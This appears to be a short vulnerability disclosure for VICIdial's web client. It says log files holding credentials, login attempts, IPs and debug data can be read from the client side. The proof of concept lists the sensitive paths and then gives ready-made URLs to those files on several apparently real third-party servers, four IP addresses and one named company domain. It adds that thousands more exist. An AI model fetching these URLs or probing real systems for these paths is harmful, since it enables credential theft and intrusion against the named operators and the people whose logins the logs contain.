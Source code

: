 # VICIdial - CVE
## Info/Impact
VICIdial's Web Client contains many sensitive files that can be access from the client side. These files contain mysqli logs, auth logs, debug information, successful and unsuccessful login attempts with their corresponding IP's, User-Agents, credentials and much more. This information can be leveraged by an attacker to gain further access to VICIdial systems.

## PoC (Proof of Concept)

Potential Sensative files/endpoints:

/vicidial/project_auth_entries.txt
/vicidial/agent_reports/AGENT_DAY_<YEAR>-<MONTH>-<DAY>.TXT
/vicidial/agent_reports/
/vicidial/closer_SQL_updates.txt
/agc/vicidial_mysqli_errors.txt
/agc/vicidial_debug.txt
/agc/vicidial_auth_entries.txt

Example URL's:

http://172.104.24.101/vicidial/project_auth_entries.txt
http://172.104.24.101/vicidial/agent_reports/
http://172.104.24.101/agc/vicidial_mysqli_errors.txt
http://172.104.24.101/agc/vicidial_debug.txt
http://172.104.24.101/agc/vicidial_auth_entries.txt

http://35.156.102.118/vicidial/project_auth_entries.txt
http://35.156.102.118/vicidial/agent_reports/
http://35.156.102.118/vicidial/closer_SQL_updates.txt
http://35.156.102.118/agc/vicidial_mysqli_errors.txt
http://35.156.102.118/agc/vicidial_debug.txt
http://35.156.102.118/agc/vicidial_auth_entries.txt

https://callsrevenue.com/vicidial/project_auth_entries.txt
https://callsrevenue.com/agc/vicidial_mysqli_errors.txt
https://callsrevenue.com/agc/vicidial_debug.txt
https://callsrevenue.com/agc/vicidial_auth_entries.txt

http://69.60.110.115/vicidial/agent_reports/
http://69.60.110.115/vicidial/closer_SQL_updates.txt
http://69.60.110.115/agc/vicidial_mysqli_errors.txt
http://69.60.110.115/agc/vicidial_debug.txt

+ Thousands More! :)

